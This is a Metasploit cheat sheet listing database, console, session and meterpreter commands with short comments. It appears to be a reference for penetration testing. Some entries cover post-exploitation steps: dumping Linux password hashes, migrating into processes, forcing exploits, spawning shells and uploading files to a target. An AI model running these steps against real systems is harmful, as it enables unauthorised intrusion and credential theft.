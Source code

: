 ## Metasploit

> https://github.com/rapid7/metasploit-framework

> https://github.com/rapid7/metasploit-payloads

### General Usage

```console
$ sudo msfdb run                           // start database
$ sudo msfdb init                          // database initialization
$ msfdb --use-defaults delete              // delete existing databases
$ msfdb --use-defaults init                // database initialization
$ msfdb status                             // database status
msf6 > workspace                           // metasploit workspaces
msf6 > workspace -a <WORKSPACE>            // add a workspace
msf6 > workspace -r <WORKSPACE>            // rename a workspace
msf6 > workspace -d <WORKSPACE>            // delete a workspace
msf6 > workspace -D                        // delete all workspaces
msf6 > db_nmap <OPTIONS>                   // execute nmap and add output to database
msf6 > hosts                               // reads hosts from database
msf6 > services                            // reads services from database
msf6 > vulns                               // displaying vulnerabilities
msf6 > search                              // search within metasploit
msf6 > set RHOST <RHOST>                   // set remote host
msf6 > set RPORT <RPORT>                   // set remote port
msf6 > run                                 // run exploit
msf6 > spool /PATH/TO/FILE                 // recording screen output
msf6 > save                                // saves current state
msf6 > exploit                             // using module exploit
msf6 > payload                             // using module payload
msf6 > auxiliary                           // using module auxiliary
msf6 > encoder                             // using module encoder
msf6 > nop                                 // using module nop
msf6 > show sessions                       // displays all current sessions
msf6 > sessions -i 1                       // switch to session 1
msf6 > sessions -u <ID>                    // upgrading shell to meterpreter
msf6 > sessions -k <ID>                    // kill specific session
msf6 > sessions -K                         // kill all sessions
msf6 > jobs                                // showing all current jobs
msf6 > show payloads                       // displaying available payloads
msf6 > resource /PATH/TO/FILE/<FILE>.rc    // load resource (.rc) file
msf6 > set VERBOSE true                    // enable verbose output
msf6 > set forceexploit true               // exploits the target anyways
msf6 > set EXITFUNC thread                 // reverse shell can exit without exit the program
msf6 > set AutoLoadStdapi false            // disables autoload of stdapi
msf6 > set PrependMigrate true             // enables automatic process migration
msf6 > set PrependMigrateProc explorer.exe                        // auto migrate to explorer.exe
msf6 > use post/PATH/TO/MODULE                                    // use post exploitation module
msf6 > use post/linux/gather/hashdump                             // use hashdump for Linux
msf6 > use post/multi/manage/shell_to_meterpreter                 // shell to meterpreter
msf6 > use exploit/windows/http/oracle_event_processing_upload    // use a specific module
C:\> > Ctrl + z                                  // put active meterpreter shell in background
meterpreter > loadstdapi                         // load stdapi
meterpreter > background                         // put meterpreter in background (same as "bg")
meterpreter > shell                              // get a system shell
meterpreter > channel -i <ID>                    // get back to existing meterpreter shell
meterpreter > ps                                 // checking processes
meterpreter > migrate 2236                       // migrate to a process
meterpreter > getuid                             // get the user id
meterpreter > sysinfo                            // get system information
meterpreter > search -f <FILE>                   // search for a file
meterpreter > upload                             // uploading local files to the target
meterpreter > ipconfig                           // get network configuration
```
